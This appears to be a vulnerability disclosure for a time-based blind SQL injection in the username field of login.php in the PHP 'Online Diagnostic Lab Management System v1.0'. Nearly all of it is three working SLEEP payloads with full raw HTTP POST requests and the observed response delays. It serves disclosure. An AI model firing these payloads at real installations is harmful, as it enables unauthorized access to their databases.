Online Diagnostic Lab Management System v1.0 by mayuri_k has SQL injection

BUG_Author: hujun

vendors:https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

Vulnerability File: /diagnostic_0/diagnostic/login.php

POST parameter 'username' exists delayed injection vulnerability

Payload1: username=12' AND (SELECT 2348 FROM (SELECT(SLEEP(5)))zxcv) AND 'bnm'='bnm&password=ab&login=

```
POST /diagnostic_0/diagnostic/login.php HTTP/1.1
Host: localhost
Content-Length: 118
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/diagnostic_0/diagnostic/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=pq7i0frcc6092gm4porg5cvqj5e9n54q; PHPSESSID=ngqgr9p2erqb85jg0veeql3i15
Connection: close

username=12%27+AND+%28SELECT+2348+FROM+%28SELECT%28SLEEP%285%29%29%29zxcv%29+AND+%27bnm%27%3D%27bnm&password=ab&login=
```

SELECT(SLEEP(5)), The server response time is 5 seconds

![image](https://github.com/junHVV/pic/blob/main/sleep5.png)

Payload2: username=12' AND (SELECT 2348 FROM (SELECT(SLEEP(10)))zxcv) AND 'bnm'='bnm&password=ab&login=

```
POST /diagnostic_0/diagnostic/login.php HTTP/1.1
Host: localhost
Content-Length: 119
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/diagnostic_0/diagnostic/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=pq7i0frcc6092gm4porg5cvqj5e9n54q; PHPSESSID=ngqgr9p2erqb85jg0veeql3i15
Connection: close

username=12%27+AND+%28SELECT+2348+FROM+%28SELECT%28SLEEP%2810%29%29%29zxcv%29+AND+%27bnm%27%3D%27bnm&password=ab&login=
```

SELECT(SLEEP(10)), The server response time is 10 seconds

![image](https://github.com/junHVV/pic/blob/main/sleep10.png)

Payload3: username=12' AND (SELECT 2348 FROM (SELECT(SLEEP(15)))zxcv) AND 'bnm'='bnm&password=ab&login=

```
POST /diagnostic_0/diagnostic/login.php HTTP/1.1
Host: localhost
Content-Length: 119
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/diagnostic_0/diagnostic/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=pq7i0frcc6092gm4porg5cvqj5e9n54q; PHPSESSID=ngqgr9p2erqb85jg0veeql3i15
Connection: close

username=12%27+AND+%28SELECT+2348+FROM+%28SELECT%28SLEEP%2815%29%29%29zxcv%29+AND+%27bnm%27%3D%27bnm&password=ab&login=
```

SELECT(SLEEP(15)), The server response time is 15 seconds

![image](https://github.com/junHVV/pic/blob/main/sleep15.png)
